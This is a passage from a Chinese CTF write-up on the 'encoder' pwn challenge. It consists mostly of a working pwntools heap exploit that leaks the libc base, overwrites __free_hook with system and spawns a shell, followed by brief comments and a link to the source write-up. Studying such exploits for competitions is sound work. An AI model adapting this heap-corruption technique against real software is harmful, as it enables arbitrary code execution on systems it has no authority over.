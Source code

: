 ```python
upload(3,0x20,b'a'*0x20)

upload(0,-1,b'')
upload(0,0x30,b'a'*0x20+p64(0)+p64(0x61))

release(1)
upload(1,0x50,b'a'*0x30+p64(0)+p64(0x511)+b'a'*0x10)
release(2)
download(1)
r.recv(0x40)
libc_base=u64(r.recv(8))-0x1ECBE0
print(hex(libc_base))

upload(0,0x30,b'a'*0x20+p64(0)+p64(0x41))
upload(10,0x30,b"a"*0x30)
release(10)
release(1)

upload(0,-1,b'')
upload(0,0x38,b'a'*0x20+p64(0)+p64(0x41)+p64(libc_base+libc.sym["__free_hook"]))
upload(1,0x30,b'b'*0x30)

upload(4,0x30,p64(libc_base+libc.sym["system"])+b"\x00"*0x28)
upload(5,0x20,b"/bin/sh\x00"+b"\x00"*0x18)
release(5)


print(hex(libc_base+libc.sym["__free_hook"]))
r.interactive()
```

成功打通本地.

感觉这题...只能说很难评价吧.encode和decode两个功能,以及程序主动输出的堆地址后三位,居然全都是干扰信息...

最后把我看到的wp的原地址贴一下:

[2025软件系统安全赛华东赛区Pwn-encoder复现-CSDN博客](https://blog.csdn.net/qq_74026216/article/details/146512142)
